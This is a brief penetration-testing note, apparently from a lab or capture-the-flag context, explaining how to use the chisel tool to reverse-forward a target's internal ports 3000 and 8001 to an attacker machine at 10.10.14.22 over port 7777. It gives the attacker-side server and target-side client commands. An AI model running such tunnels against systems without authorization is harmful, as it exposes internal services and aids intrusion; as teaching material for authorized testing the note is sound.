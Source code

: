 If a target server is running a service on port 8001, you can forward that port to your local (attacker) machine using a tool `chisel`

Chisel is ran on the attacker machine in `server` mode and on the target machine as `client` mode. The following commands will forward port 8001 and port 3000 to the attacker machine over port 7777. You can then access the service on `locahost:8001` on the attacker machine:

# Server (Attacker) Setup
`./chisel server --port 7777 --reverse`
Port 7777 here is the 'listener port' like in a standard reverse shell.

# Client (Target) Setup
`./chisel client 10.10.14.22:7777 R:3000:127.0.0.1:3000 R:8001:127.0.0.1:8001`
